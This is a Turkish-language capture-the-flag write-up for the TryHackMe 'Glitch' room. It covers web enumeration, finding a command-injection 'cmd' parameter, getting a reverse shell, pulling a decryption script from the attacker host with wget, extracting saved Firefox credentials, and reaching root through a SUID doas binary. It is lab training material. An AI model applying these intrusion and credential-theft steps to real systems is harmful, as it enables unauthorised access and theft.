 ```yaml
---
title: GLITCH
date: 2024-03-29 15:00:12 
categories: [TryHackMe]
tags: [Easy]  
image: images/glitch.jpeg
---
```


<a href="https://tryhackme.com/r/room/glitch">GLITCH</a>

---

### What is your access token?

nmap komutu:

````bash
┌──(root㉿kali)-[~]
└─# nmap -T4 -sV 10.10.32.188
````

nmap çıktısı:

````bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-30 17:49 EDT
Nmap scan report for 10.10.32.188 (10.10.32.188)
Host is up (0.12s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
````

80 portunda çalışan websitesini ziyaret edelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Glitch/images/1.png?raw=true)

Web sitesine erişirken pek bir şey olmuyor. Bulduğumuz tek şey bir fotoğraf. Kaynak koduna bakıldığında getAccess adlı bir JavaScript fonksiyonu var fakat çağrılmamış. Fonksiyon, /api/access'e bir GET isteğinde bulunduğunda ve yanıtı konsola kaydediyor.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Glitch/images/2.png?raw=true)

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Glitch/images/3.png?raw=true)

Token base64 ile kodlanmış.[CyberChef](https://gchq.github.io/CyberChef/) sitesinden kodu decode ediyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Glitch/images/4.png?raw=true)


### What is the content of user.txt?

Bulduğumuz token'ı kullandığımızda sayfaya erişiyoruz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Glitch/images/5.png?raw=true)

Siteyi hangi ruh hastası hazırladıysa kendisini tebrik ediyorum.

Gobuster ile dizin taraması yapıyorum.

````bash
┌──(root㉿kali)-[~]
└─# gobuster dir --wordlist=/usr/share/wordlists/dirb/big.txt --url http://10.10.32.188/api -t 40
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.32.188/api
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/access               (Status: 200) [Size: 36]
/items                (Status: 200) [Size: 169]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
````

/items dizini inceliyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Glitch/images/6.png?raw=true)

İstek GET metodu ile gidiyor POST olarak değiştiriyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Glitch/images/7.png?raw=true)

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Glitch/images/8.png?raw=true)


Eksik bir parametre olmalı.

````bash
┌──(root㉿kali)-[~]
└─# wfuzz -X POST -w /usr/share/wordlists/SecLists/Fuzzing/1-4_all_letters_a-z.txt --hh=45 http://10.10.16.166/api/items?FUZZ=zart
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.16.166/api/items?FUZZ=zart
Total requests: 475254

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                             
=====================================================================

000002370:   500        10 L     64 W       1081 Ch     "cmd"
````

Varsayımım doğruydu, URL bir cmd parametresi alıyor.

`cmd` parametesine reverse shell kodu yazıyorum ve post metoduyla gönderiyorum.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Glitch/images/9.png?raw=true)

Makineye erişim sağladık.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Glitch/images/10.png?raw=true)

````bash
user@ubuntu:/var/web$ cd /home
lcd /home
user@ubuntu:/home$ s
ls
user
v0id
user@ubuntu:/home$ cd user
cd userl
user@ubuntu:~$ s
ls
user.txt
user@ubuntu:~$ cat user.txt
cat user.txt
THM{-----}
user@ubuntu:~$ 
````

### What is the content of root.txt?

user klasöründeki .firefox dosyası dikkatimi çekti. [Firefox_decrypt](https://github.com/unode/firefox_decrypt/blob/main/firefox_decrypt.py) scripti ile dosyayı açtım.

````bash
user@ubuntu:~$ ls -la
ls -la
total 48
drwxr-xr-x   8 user user  4096 Jan 27  2021 .
drwxr-xr-x   4 root root  4096 Jan 15  2021 ..
lrwxrwxrwx   1 root root     9 Jan 21  2021 .bash_history -> /dev/null
-rw-r--r--   1 user user  3771 Apr  4  2018 .bashrc
drwx------   2 user user  4096 Jan  4  2021 .cache
drwxrwxrwx   4 user user  4096 Jan 27  2021 .firefox
drwx------   3 user user  4096 Jan  4  2021 .gnupg
drwxr-xr-x 270 user user 12288 Jan  4  2021 .npm
drwxrwxr-x   5 user user  4096 Apr 30 21:48 .pm2
drwx------   2 user user  4096 Jan 21  2021 .ssh
-rw-rw-r--   1 user user    22 Jan  4  2021 user.txt
user@ubuntu:~$ cd .firefox
cd .firefox
user@ubuntu:~/.firefox$ ls -la
ls -la
total 20
drwxrwxrwx  4 user user 4096 Jan 27  2021 .
drwxr-xr-x  8 user user 4096 Jan 27  2021 ..
drwxrwxrwx 11 user user 4096 Jan 27  2021 b5w4643p.default-release
drwxrwxrwx  3 user user 4096 Jan 27  2021 Crash Reports
-rwxrwxr-x  1 user user  259 Jan 27  2021 profiles.ini
user@ubuntu:~/.firefox$ wget 10.9.1.150:80/firefox_decrypt.py
wget 10.9.1.150:80/firefox_decrypt.py
--2024-04-30 22:39:43--  http://10.9.1.150/firefox_decrypt.py
Connecting to 10.9.1.150:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 39322 (38K) [text/x-python]
Saving to: ‘firefox_decrypt.py’

     0K .......... .......... .......... ........             100%  241K=0.2s

2024-04-30 22:39:43 (241 KB/s) - ‘firefox_decrypt.py’ saved [39322/39322]

user@ubuntu:~/.firefox$ chmod 777 firefox_decrypt.py
chmod 777 firefox_decrypt.py
user@ubuntu:~/.firefox$ python3 firefox_decrypt.py .
Select the Mozilla profile you wish to decrypt
1 -> hknqkrn7.default
2 -> b5w4643p.default-release
2

Website:   https://glitch.thm
Username: 'v0id'
Password: '---'
````

v0id kullanıcına geçebiliriz.

````bash
user@ubuntu:/var/web$ su v0id
su v0id
Password: 

v0id@ubuntu:/var/web$ id
id
uid=1001(v0id) gid=1001(v0id) groups=1001(v0id)
````

v0id kullanıcısının kullanabileceği bir program yok

````bash
v0id@ubuntu:/var/web$ sudo -l
sudo -l
[sudo] password for v0id: 

Sorry, user v0id may not run sudo on ubuntu.
````

Fakat SUID dosyası var.

````bash
v0id@ubuntu:~$ find / -type f -user root -perm -u=s 2>/dev/null
find / -type f -user root -perm -u=s 2>/dev/null
/bin/ping
/bin/mount
/bin/fusermount
/bin/umount
/bin/su
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newuidmap
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/pkexec
/usr/bin/newgidmap
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/doas
````

/usr/local/bin/doas ı kullanabiliriz.

````bash
v0id@ubuntu:~$ doas -u root /bin/bash
doas -u root /bin/bash
Password:

root@ubuntu:/home/v0id# cd /root
cd /root
root@ubuntu:~# cat root.txt
cat root.txt
THM{---}
````

![fsoc](/images/fsoc.gif)








